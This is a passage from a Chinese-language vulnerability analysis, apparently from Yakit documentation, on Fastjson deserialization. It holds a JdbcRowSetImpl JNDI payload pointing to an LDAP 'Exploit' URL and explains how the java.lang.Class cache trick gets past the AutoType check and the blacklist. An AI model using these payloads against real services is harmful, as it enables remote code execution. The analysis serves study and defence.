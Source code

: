 `{"@type":"[com.sun.rowset.JdbcRowSetImpl"[<任意数量的,>{<任意数量的,>"dataSourceName":"ldap://localhost:1399/Exploit"``, "autoCommit":true`}

### 第二个payload

对比第一个payload，多了个`{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}`，这个是对AutoType绕过的，1.2.25才有AutoType，

如图，原来直接loadClass改为了checkAutoType

![](/img/products/yakit/json-checkAutoType.png)

在checkAutoType方法中，未开启AutoType情况下会有下面两种加载方式，先看getClassFromMapping

![](/img/products/yakit/json-getClassFromMapping.png)

如图，从mappings中取

![](/img/products/yakit/json-mappings.png)

第二种是从deserializers中取，如图deserializers是内置的一些类和对应的反序列化器

![](/img/products/yakit/json-deserializers.png)

而且deserializers是private类型变量，在当前类里搜deserializers.put，发现有个public方法putDeserializer是可以向deserializers添加新数据的，全局搜索下，有两个方法调用，但都不能利用，所以这种加载方式pass

再看mapping，也是private类型，搜下mappings.put，发现loadClass有调用，load过的class都会存到mapping。全局搜索TypeUtils.loadClass，发现4个调用的地方，有两个需要开启autoTypeSupport，还有一处在白名单内，也pass（这里可以看出，即使开启了autoTypeSupport，也不能直接加载目标类，因为有黑白名单限制）

![](/img/products/yakit/json-autoTypeSupport.png)

最后一处在MiscCodec.deserialze方法中

![](/img/products/yakit/json-miscCodec-deserialze.png)

MiscCodec继承了ObjectDeserializer，所以它应该反序列化器，所以去deserializers中看下这是谁的反序列化器

![](/img/products/yakit/json-miscCodec-deserializers.png)

这么多类都用它反序列化，再看下MiscCodec.deserialze方法，发现里面都是if，应该是把一些简单的类都塞到这里了，TypeUtils.loadClass在Class.class的判断里，所以大概猜到，Class类在反序列化时会调用TypeUtils.loadClass，再看下传入loadClass的参数，是在前面解析的"val"对应的value

到此大概猜出，可以用`{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}`先加载一遍`com.sun.rowset.JdbcRowSetImpl`，放进mapping缓存，下次加载`com.sun.rowset.JdbcRowSetImpl`可以通过缓存加载，从而绕过AutoType的限制

### AutoType和黑白名单

在1.2.25版本后，增加了AutoType和黑白名单的限制

根据黑白名单逻辑，当AutoType为False时不会进入这段黑白名单判断代码（1.2.25版本）

![](/img/products/yakit/json-autoType.png)

除了这种黑名单，还有一种黑名单，如下，要同时满足，在黑名单内且不在mapping内，明显这种通过第二种payload，可以在mapping中添加目标类的缓存，从而绕过
